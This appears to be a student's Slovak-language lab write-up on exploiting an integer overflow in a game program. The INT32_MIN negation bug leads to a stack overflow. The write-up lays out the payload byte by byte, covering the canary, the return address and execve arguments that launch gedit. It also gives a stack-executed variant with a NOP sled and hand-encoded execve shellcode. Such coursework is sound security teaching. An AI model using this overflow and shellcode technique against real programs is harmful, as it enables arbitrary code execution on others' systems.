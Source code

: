 # Ukol #2
### 2. Pretečenie zásobniku
`INT32_MIN` je jedina hodnota vstupu, ktorá nieje ošetrená
správne keďže `-INT32_MIN == INT_32MIN`.
Ostatné záporne hodnotý sú ošetrene spravne a sú pre hru dokonca potrebné.

```
else if(word_len < -1) {
    mode = MODE_SHUFFLE;
    // bug #2, we are using negative sign to store information about game mode,
    // but we are not counting with INT32_MIN integer overflow in * -1.
    word_len *= -1;
}
```


# Ukol #3
Pokiaľ máme zapnutý stackexec tak:
```asm
MOV RAX, 59
MOV RDI, OFFSET filename
MOV RSI, OFFSET argv
MOV RDX, OFFSET envp
SYSCALL
```

Bez stackexec stále neviem.

# Ukol #4
Prerobil som útok tak aby hodnoty `cmd, argv, envp` boli uložené v
exploite a z `main.c` som ich úplne odstránil. (viz. `attack.py:113`)

Ukážka binárneho kódu ktorý je zapisovaný
do hry po poslaní `INT32_MIN` (word je začiatok bufferu ktorý preteká):
```
00: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 00 5F 5F 5F 5F 5F
10: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
20: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
30: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
40: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
50: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
60: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F

                                     kanarik
                            vvvvvvvvvvvvvvvvvvvvvvv
70: 5F 5F 5F 5F 5F 5F 5F 5F 00 -- -- -- -- -- -- --
80: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F

       rbp pre func_1       navratova adresa z main
                            nastavene na func_1+223
    vvvvvvvvvvvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvvvvv
90: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
a0: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F

                            adresa na stack na envp
                                 word + 0x130
                            vvvvvvvvvvvvvvvvvvvvvvv
b0: 5F 5F 5F 5F 5F 5F 5F 5F -- -- -- -- -- -- -- --

    adresa na stack na argv adresa na stack na cmd
          word + 0x110            word + 0x100
    vvvvvvvvvvvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvvvvv
c0: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
d0: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
e0: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F
f0: 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F 5F

100:  /  u  s  r  /  b  i  n  /  g  e  d  i  t 00 00

      adresa na word + 0x100   NULL v array argv
     vvvvvvvvvvvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvvvvv
110: -- -- -- -- -- -- -- -- 00 00 00 00 00 00 00 00
120:  D  I  S  P  L  A  Y  =  :  0 00 00 00 00 00 00

      adresa na word + 0x120   NULL v array envp
     vvvvvvvvvvvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvvvvv
130: -- -- -- -- -- -- -- -- 00 00 00 00 00 00 00 00

140: \n  0 \n
```
Okreslené z `stdin_copy.bin` a `attack.py`.


Aby som ukázal použitie kódu z **Ukol #3**,
vytvoril som binarku `execstack` (viz. `Makefile`),
ktorá má povolené spúštanie kódu na stacku.

Do `attack.py` som pridal flag `--execstack`,
ktorý spustí podobný útok ale nevyužíva `func_1`.
Namiesto toho sa spúšta kód zo stacku, rovnaký ako
v **Ukol #3**. (viz `attack.py:170` a `attack.py:311`)

Na miesto `word[98:9f]` sa umiestni hodnota `word + 0xa0`, takže
`rip` bude ukazovať na stack. Tam je následne umiestnený assembly z **Ukol #3**.

Opäť ukážka posielaného exploitu (zobrazené len časti rozdielne od prvého):
```
       rbp nie je potrebne  navratova adresa z main
            nastavovať      nastavene na word + 0xa0
    vvvvvvvvvvvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvvvvv
90: 5F 5F 5F 5F 5F 5F 5F 5F -- -- -- -- -- -- -- --

       nop sled
       zbytočný         mov rax, 59     mov rdi, &cmd
    vvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvv vvvvvvvvvvv
a0: 90 90 90 90 90 48 C7 C0 3B 00 00 00 48 bf -- --

  &cmd = word + 0x100  mov rsi, &argv
                          &argv = word + 0x110
    vvvvvvvvvvvvvvvvv vvvvvvvvvvvvvvvvvvvvvvvvvvvvv
b0: -- -- -- -- -- -- 48 be -- -- -- -- -- -- -- --

    mov rdx, &envp                sys
       &envp = word + 0x130        call
    vvvvvvvvvvvvvvvvvvvvvvvvvvvvv vvvvv
c0: 48 ba -- -- -- -- -- -- -- -- 0f 05 5F 5F 5F 5F
```
Okreslené z `stdin_copy_execstack.bin` a `attack.py`.



0x79 85 f2 65 0d 70
0x79 38 63 85 0d 70